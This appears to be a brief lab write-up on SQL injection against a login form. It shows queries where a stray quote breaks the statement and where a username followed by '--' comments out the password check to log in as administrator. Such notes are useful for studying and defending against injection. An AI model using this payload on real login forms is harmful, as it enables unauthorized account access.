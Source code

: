 SQL Injection - Login Functionality

perform an SQL injection attack that logs in to the application as the administrator user.

Analysis
----------
SELECT firstname FROM users WHERE username ='admin' and password ='admin'

SELECT firstname FROM users WHERE username =''' and password ='admin'

SELECT firstname FROM users WHERE username ='admin'--' and password ='admin'

SELECT firstname FROM users WHERE username ='admin'

SELECT firstname FROM users WHERE username ='administrator'--'

